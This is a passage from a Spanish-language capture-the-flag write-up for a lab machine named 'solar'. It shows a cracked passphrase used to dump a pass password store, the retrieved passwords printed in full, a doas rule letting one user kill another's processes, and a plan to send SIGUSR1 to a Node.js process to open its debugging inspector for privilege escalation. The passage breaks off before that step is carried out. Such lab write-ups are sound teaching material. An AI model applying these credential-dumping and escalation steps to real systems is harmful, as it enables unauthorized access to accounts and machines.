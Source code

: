 Ahora que ya tenemos el passphrase (`loverboy1`) del gestor, podemos obtener todas las contraseñas.

```bash
lenam@solar:~$ pass
Password Store
├── personal
│   ├── private_id
│   └── user
└── work
    └── office
lenam@solar:~$ pass personal/private_id
CzMO48xpwof8nvQ6JUhF
lenam@solar:~$ pass personal/user
qiFQI7buDp7zIQnAymEY
lenam@solar:~$ pass work/office
d1NpIh1bCKMx
```

La contraseña `personal/private_id` es la passphrase de la clave SSH que ya tenemos; `personal/user` es la contraseña del usuario `lenam`, necesaria para la ejecución de `doas`. La última contraseña `work/office` no la necesitaremos.

Ahora que tenemos la contraseña de `lenam`, podemos matar procesos como el usuario `julian` mediante `doas`.

```text
permit lenam as julian cmd /bin/kill
```

Buscamos procesos que tenga abiertos el usuario `julian`.

```bash
lenam@solar:~$ ps aux | grep julian
julian    549542  3.2  3.9 1053996 79168 ?       Ssl  05:11   0:00 /home/julian/.nvm/versions/node/v22.7.0/bin/node /home/julian/.local/bin/demoadm/login.js
julian    549553  5.0  8.8 34100228 179060 ?     Ssl  05:11   0:00 /home/julian/.cache/puppeteer/chrome/linux-126.0.6478.126/chrome-linux64/chrome --allow-pre-commit-input --disable-background-networking --disable-background-timer-throttling --disable-backgrounding-occluded-windows --disable-breakpad --disable-client-side-phishing-detection --disable-component-extensions-with-background-pages --disable-component-update --disable-default-apps --disable-dev-shm-usage --disable-extensions --disable-hang-monitor --disable-infobars --disable-ipc-flooding-protection --disable-popup-blocking --disable-prompt-on-repost --disable-renderer-backgrounding --disable-search-engine-choice-screen --disable-sync --enable-automation --export-tagged-pdf --generate-pdf-document-outline --force-color-profile=srgb --metrics-recording-only --no-first-run --password-store=basic --use-mock-keychain --disable-features=Translate,AcceptCHFrame,MediaRouter,OptimizationHints,ProcessPerSiteUpToMainFrameThreshold,IsolateSandboxedIframes --enable-features=PdfOopif --headless=new --hide-scrollbars --mute-audio about:blank --ignore-certificate-errors --remote-debugging-port=0 --user-data-dir=/tmp/puppeteer_dev_chrome_profile-W1SxUQ
...
```

Encontramos un proceso que ejecuta `nodejs`. Este proceso se reinicia cada 2 minutos, cambiando su PID.  

Podemos intentar matar el proceso enviando una señal `SIGUSR1`; esto reiniciará el proceso de `nodejs` con el puerto del inspector abierto por defecto en el puerto `9229`.
